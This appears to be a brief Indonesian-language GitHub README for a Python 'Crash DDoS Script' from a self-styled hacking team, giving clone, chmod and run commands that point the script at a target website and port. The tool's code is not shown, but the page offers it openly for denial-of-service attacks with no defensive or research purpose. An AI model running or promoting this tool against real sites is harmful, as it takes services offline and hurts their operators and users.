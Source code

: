 - Crash DDoS Script - Python 3
------
- Cara Install Dan Menjalankan DoS
```
$ git clone https://github.com/R00TD4nZ/crash
$ cd crash
$ chmod +x crash.py
$ python3 crash.py www.site.com port 80
Contoh : 
$ python3 crash.py www.site.com 80
Default port 80 - site www not http
```
- Creator By r00t#d4nZ
- CR45H FIGHTER TEAM
